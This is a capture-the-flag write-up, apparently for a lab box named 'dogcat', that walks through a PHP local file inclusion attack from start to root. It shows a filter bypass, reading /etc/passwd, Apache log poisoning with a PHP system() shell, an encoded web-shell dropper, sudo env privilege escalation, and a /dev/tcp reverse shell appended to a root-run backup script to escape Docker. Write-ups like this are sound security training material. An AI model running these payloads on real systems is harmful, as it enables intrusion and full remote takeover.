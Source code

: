 # dogcat

1. Recon reveals 22 and 80.
2. Going to the site (after running a dirb) reveals a simple site where you can view dog or cat images, via a query string `?view=`. Obvious LFI challenge
3. `php://filter/dog/convert.base64-encode/resource=dog` gets the base64 encoding of the dog and cat pages, which select a random image. Unfortunately, there is a whitelist: if dog or cat are not in the view url, it rejects it with 'only dogs or cats allowed'.
4. After a lot of messing about, I found this works (I don't know why. PHP ¯\_(ツ)_/¯): `http://10.10.177.45/?view=php://filter/dog/convert.base64-encode/resource=index`. It returns an error and the base64 of index :D

    This revealed that index is:

    ```php
    <?php
        function containsStr($str, $substr) {
            return strpos($str, $substr) !== false;
        }
        $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
        if(isset($_GET['view'])) {
            if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                echo 'Here you go!';
                include $_GET['view'] . $ext;
            } else {
                echo 'Sorry, only dogs or cats are allowed.';
            }
        }
    ?>
    ```

    Of note, I can specify the extension. So for example this works and gets me the passwd file: `?view=php://filter/dog/convert.base64-encode/resource=../../../../etc/passwd&ext=`

    Next step, how to exploit this? The passwd file revealed no users but www-data. A look at this blog (https://resources.infosecinstitute.com/local-file-inclusion-code-execution/) provided a possible option: utilising the apache log.

5. I used netcat to inject a php shell into the access logs: 

    ```
    root@kali:~# nc 10.10.148.44 80
    GET /<?php system($_GET['cmd']); ?>
    HTTP/1.1 400 Bad Request
    Date: Sun, 03 May 2020 02:20:10 GMT
    Server: Apache/2.4.38 (Debian)
    Content-Length: 302
    Connection: close
    Content-Type: text/html; charset=iso-8859-1

    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>400 Bad Request</title>
    </head><body>
    <h1>Bad Request</h1>
    <p>Your browser sent a request that this server could not understand.<br />
    </p>
    <hr>
    <address>Apache/2.4.38 (Debian) Server at 172.17.0.2 Port 80</address>
    </body></html>
    ```

6. I tested this by running `http://10.10.148.44/?view=php://filter/dog/resource=/var/log/apache2/access.log&ext=&cmd=cat%20/etc/passwd` which printed the contents of passwd to the screen (buried in the logs). Nice.

7. By using the script below as the cmd query string value, I created a `shell.php` in the web directory:

    `echo %50%47%5a%76%63%6d%30%67%62%57%56%30%61%47%39%6b%50%53%4a%48%52%56%51%69%49%47%35%68%62%57%55%39%49%6a%77%2f%63%47%68%77%49%47%56%6a%61%47%38%67%59%6d%46%7a%5a%57%35%68%62%57%55%6f%4a%46%39%54%52%56%4a%57%52%56%4a%62%4a%31%42%49%55%46%39%54%52%55%78%47%4a%31%30%70%4f%79%41%2f%50%69%49%2b%43%6a%78%70%62%6e%42%31%64%43%42%30%65%58%42%6c%50%53%4a%55%52%56%68%55%49%69%42%75%59%57%31%6c%50%53%4a%6a%62%57%51%69%49%47%6c%6b%50%53%4a%6a%62%57%51%69%49%48%4e%70%65%6d%55%39%49%6a%67%77%49%6a%34%4b%50%47%6c%75%63%48%56%30%49%48%52%35%63%47%55%39%49%6c%4e%56%51%6b%31%4a%56%43%49%67%64%6d%46%73%64%57%55%39%49%6b%56%34%5a%57%4e%31%64%47%55%69%50%67%6f%38%4c%32%5a%76%63%6d%30%2b%43%6a%78%77%63%6d%55%2b%43%6a%77%2f%63%47%68%77%43%69%41%67%49%43%42%70%5a%69%68%70%63%33%4e%6c%64%43%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4b%51%6f%67%49%43%41%67%65%77%6f%67%49%43%41%67%49%43%41%67%49%48%4e%35%63%33%52%6c%62%53%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4f%77%6f%67%49%43%41%67%66%51%6f%2f%50%67%6f%38%4c%33%42%79%5a%54%34%4b%50%48%4e%6a%63%6d%6c%77%64%44%35%6b%62%32%4e%31%62%57%56%75%64%43%35%6e%5a%58%52%46%62%47%56%74%5a%57%35%30%51%6e%6c%4a%5a%43%67%69%59%32%31%6b%49%69%6b%75%5a%6d%39%6a%64%58%4d%6f%4b%54%73%38%4c%33%4e%6a%63%6d%6c%77%64%44%34%3d | base64 -d > shell.php`

8. This wasn't working right to get a reverse shell, but I was able to use it to create a reverse shell via encoding the reverse shell from here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

    `echo <base64 encoded> | base64 -d > reverse.php`

9. With a reverse shell on the machine, I was able to `cat flag.php` which was in the root of the web, giving me the first flag `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

10. Sudo -l revealed:

```
Matching Defaults entries for www-data on 79ac254749ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 79ac254749ea:
    (root) NOPASSWD: /usr/bin/env
```

This allowed me to run `sudo /usr/bin/env /bin/sh` to get a root shell.

11. The third flag was in `/root/flag3.txt`: `THM{D1ff3r3nt_3nv1ronments_874112}`. Still need to find 2 and 4.

12. Browsing into /var/www I found flag2: `THM{LF1_t0_RC3_aec3fb}`. The flag file was `/var/www/flag2_QMW7JvaY2LvK.txt`

I was stuck at this point. Tried all sorts of things including grepping the file system, but couldn't find the fourth flag. I found an /opt/backups/backup.tar, but its contents were just the current system, including the flags I had already found. I also found a .dockerenv and dockerfile, file, but didn't make the connection. The answer was that this is all running inside a docker container, and I needed to escape it. The backup.tar file was next to a backup.sh file, presumably run from outside.

13. Adding onto /opt/backups/backup.sh the following `bash -i >& /dev/tcp/10.10.78.44/4443 0>&1` via `echo >>` as root, I set up a reverse listener on my host and waited. Soon I got a `root@dogcat`.

14. ls -lA revealed flag4.txt, and catting that got me `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`